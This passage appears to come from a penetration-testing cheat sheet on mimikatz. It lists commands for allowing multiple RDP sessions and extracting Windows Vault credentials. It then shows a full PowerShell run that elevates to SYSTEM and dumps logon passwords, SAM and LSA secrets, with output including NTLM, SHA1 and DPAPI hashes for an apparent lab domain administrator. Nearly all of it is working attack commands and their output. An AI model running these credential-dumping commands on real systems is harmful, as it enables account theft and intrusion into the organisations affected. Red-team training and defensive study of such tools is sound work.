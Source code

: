 #### Terminal Services <a href="#terminal-services" id="terminal-services"></a>

* **TS::MultiRDP**: Allow multiple RDP sessions.
  * `mimikatz "ts::multirdp" exit`
* **TS::Sessions**: List TS/RDP sessions.
  * _No specific command provided for TS::Sessions in original context._

#### Vault <a href="#vault" id="vault"></a>

* Extract passwords from Windows Vault.
  * `mimikatz "vault::cred /patch" exit`

{% code overflow="wrap" %}
```
PS C:\Users\adminwebserver\Desktop> .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

708     {0;000003e7} 1 D 20361          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000828d1} 2 F 2370414     SPARTANCYBERSEC\adminwebserver  S-1-5-21-1861162130-2580302541-221646211-1130   (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2408646     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 534822 (00000000:00082926)
Session           : RemoteInteractive from 2
User Name         : adminwebserver
Domain            : SPARTANCYBERSEC
Logon Server      : FIRST-DC
Logon Time        : 11/6/2023 12:17:35 AM
SID               : S-1-5-21-1861162130-2580302541-221646211-1130
        msv :
         [00000003] Primary
         * Username : adminwebserver
         * Domain   : SPARTANCYBERSEC
         * NTLM     : 64fbae31cc352fc26af97cbdef151e03
         * SHA1     : c220d333379050d852f3e65b010a817712b8c176
         * DPAPI    : ade33bd531fcf91dc0463eed20cd825d
        tspkg :
        wdigest :
         * Username : adminwebserver
         * Domain   : SPARTANCYBERSEC
         * Password : (null)
        kerberos :
         * Username : adminwebserver
         * Domain   : SPARTANCYBERSEC.CORP
```